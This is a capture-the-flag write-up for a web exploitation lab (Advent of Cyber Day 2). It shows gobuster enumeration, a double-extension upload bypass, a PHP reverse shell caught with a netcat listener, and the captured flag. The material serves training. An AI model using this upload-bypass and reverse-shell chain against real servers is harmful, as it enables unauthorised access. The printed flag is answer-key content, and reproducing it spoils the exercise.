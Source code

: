 # Day 2 - The Elf Strikes Back! (Web Exploitation)

1. What string of text needs adding to the URL to get access to the upload page? `?id=ODIzODI5MTNiYmYw`. The string is given in the problem and the main site at `http://10.10.16.112` simply says to set the id parameter `http://10.10.16.112?id=ODIzODI5MTNiYmYw`

2. What type of file is accepted by the site? `image`. Try uploading `png` and `jpg` work. The site reports `Invalid extension!` when uploading a `.php` file.

3. In which directory are the uploaded files stored? `/uploads/`. Directory brute forcing with gobuster `gobuster dir -u http://10.10.16.112/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` but `Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.16.112/16bd1462-456b-43e4-8ef8-1c8500cde221 => 200` so let's try `/uploads`, which works. The image file I uploaded is in that folder.

4. Activate your reverse shell and catch it in a netcat listener! Get php reverse shell with `cp /usr/share/webshells/php/php-reverse-shell.php ~`. Change port and ip (get ip from `ip a`). Start netcat listener with `sudo nc -lvnp 18934` or pwncat with `pwncat 0.0.0.0:18934`. Rename the reverse shell file `mv php-reverse-shell.php php-reverse-shell.jpg.php` and navigate to `http://10.10.16.112/uploads/php-reverse-shell.jpg.php`. You should get a shell.

5. What is the flag in `/var/www/flag.txt`? Run `cat /var/www/flag.txt` to get:

    ```
    ==============================================================


    You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
    This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


    Have a flag -- you deserve it!
    THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


    Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
    --Muiri (@MuirlandOracle)


    ==============================================================
    ```

    So the flag is `THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}`.
